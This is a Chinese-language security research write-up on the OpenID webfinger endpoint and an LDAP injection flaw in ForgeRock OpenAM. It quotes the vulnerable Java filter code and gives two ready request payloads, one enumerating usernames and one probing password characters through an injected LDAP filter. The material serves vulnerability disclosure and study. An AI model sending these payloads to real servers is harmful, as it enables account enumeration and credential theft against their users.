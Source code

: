 这是在扫描过程中可能找不到的一个OpenID接口，因为它被OpenID客户端程序使用而不会从浏览器发送。[规范](https://openid.net/specs/openid-connect-discovery-1_0.html)中提到rel参数是一个固定值，resource参数 应该是如下形式的url：

* http://host/user
* acct://user@host

这个URL只会被服务器解析而不会被用来发送HTTP请求，因此这里不存在SSRF漏洞，同时，可以尝试在此处找例如SQL注入漏洞，因为这个接口不会进行身份认证。

这个接口如果返回404，意味着两种情况，参数不合法或者用户名不存在，因此在扫描时要注意。

### [ForgeRock OpenAm] LDAP Injection in Webfinger Protocol

我们在ForgeRock的OpenAM服务器上发现了webfinger接口漏洞的一个很好的例子，这个商业软件存在LDAP注入漏洞

在代码分析过程中，我们发现OpenAM服务器在处理请求时，会将用户提供的resource参数插入到LDAP服务器的filter query中，LDAP query在SMSLdapObject.java中

```java
String[] objs = { filter };
String FILTER_PATTERN_ORG = "(&(objectclass="
  + SMSEntry.OC_REALM_SERVICE + ")(" + SMSEntry.ORGANIZATION_RDN
  + "={0}))";
String sfilter = MessageFormat.format(FILTER_PATTERN_ORG, (Object[]) objs);

```

代码中没有对resource参数包含例如();,*|的特殊字符进行任何检查，并将他们插入到LDAP的query filter中，从攻击者的视角来看，可以使用LDAP filters来访问LDAP中存储的用户对象的各种字段。其中一种攻击方法是用户名枚举：

```
/openam/.well-known/webfinger?resource=http://x/dsa*&rel=http://openid.net/specs/connect/1.0/issuer
```

如果任何用户以dsa开始，就会返回200，否则返回404。

此外，我们还可以指定filter基于用户密码

```
/openam/.well-known/webfinger?resource=http://x/dsameuser)(sunKeyValue=userPassword=A*)(%2526&rel=http://openid.net/specs/connect/1.0/issuer
```
